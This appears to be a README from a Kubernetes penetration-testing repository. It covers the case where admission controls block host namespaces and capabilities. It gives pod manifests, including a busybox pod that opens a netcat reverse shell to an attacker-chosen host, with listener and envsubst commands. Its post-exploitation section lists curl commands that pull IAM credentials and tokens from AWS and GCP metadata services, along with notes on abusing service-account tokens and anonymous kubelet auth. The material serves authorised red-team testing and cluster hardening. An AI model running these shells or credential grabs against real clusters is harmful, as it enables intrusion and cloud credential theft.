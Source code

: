 ## You have nothing

The pod security policy or admission controller has blocked access to all of the host's namespaces and restricted all capabilities.  **Do not despair**, especially if the target cluster is running in a cloud environment. 


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-nothing-allowed
  labels: 
    app: pentest
spec:
  containers:
  - name: nothing-allowed
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  # Force scheduling of your pod on control plane node by uncommenting this line and changing the name
  #nodeName: k8s-control-plane-node
```
[pod-nothing-allowed.yaml](pod-nothing-allowed.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-nothing-allowed.yaml 
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/nothing-allowed/pod-nothing-allowed.yaml 
```

#### Exec into pod 
```bash
kubectl exec -it pod-nothing-allowed -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-nothing-allowed-revshell
  labels: 
    app: pentest
spec:
  containers:
  - name: nothing-allowed-revshell
    image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
  # Force scheduling of your pod on control plane node by uncommenting this line and changing the name
  #nodeName: k8s-control-plane-node
```
[pod-nothing-allowed-revshell.yaml](pod-nothing-allowed-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/nothing-allowed/pod-nothing-allowed-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation

* **Cloud metadata** - If cloud hosted, try to access the cloud metadata service. You might get access to the IAM credentials associated with the node, or even just a cloud IAM credential created specifically for that pod. In either case, this can be your path to escalate within the cluster, within the cloud environment, or both. 

```bash
curl http://169.254.169.254/latest/user-data # aws
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME] #aws
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/[account]/default/token #gcp
```

* **Overly permissive service account** - If the default service account is mounted to your pod and is overly permissive, you can use that token to further escalate your privs within the cluster.
* **Anonymous-auth** - If either [the apiserver or the kubelets have anonymous-auth set to true](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/), and there are no network policy controls preventing it, you can interact with them directly without authentication. 
* **Exploits** - Is the kubernetes version vulnerable to an exploit, i.e. [CVE-2020-8558](https://github.com/tabbysable/POC-2020-8558)
* **Traditional vulnerability hunting** -Your pod will be able to see a different view of the network services running within the cluster than you likely can see from the machine you used to create the pod. You can hunt for vulnerable services by proxying your traffic through the pod. 
